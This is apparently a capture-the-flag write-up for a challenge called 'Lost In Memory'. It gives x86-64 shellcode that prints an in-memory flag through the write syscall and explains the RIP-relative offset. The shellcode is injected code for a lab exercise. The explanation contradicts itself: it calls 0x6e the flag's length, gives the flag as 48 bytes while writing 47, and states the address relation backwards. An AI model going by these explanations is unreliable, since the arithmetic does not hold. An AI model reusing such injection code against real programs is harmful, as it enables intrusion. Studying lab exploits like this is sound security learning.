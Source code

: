 # Lost In Memory

```asm
lea rax, [rip]
sub rax, 0x6e
mov rdi, 1
mov rsi, rax
mov rdx, 47
mov rax, 1
syscall
```

- RAX: 1 (SYS_WRITE)
- RDI: 1 (fd = STDOUT)
- RSI: address of the flag
- RDX: 47 (length of the flag in bytes)

The idea is to use the address of the shellcode as the address of the string to print. The RIP contains the next instruction address. The flag is placed before the shellcode, so the address of the shellcode is the address of the flag minus 0x6e. Where 0x6e is the length of the flag.

The flag is 48 (0x30) bytes long. The stub is 55 (0x37) bytes long. The first instruction of the shellcode is 7 bytes long. Then 0x30 + 0x37 + 0x7 = 0x6e, that we have to subtract from the RIP.
We are using the first instruction of the shellcode because the RIP points to the next instruction.
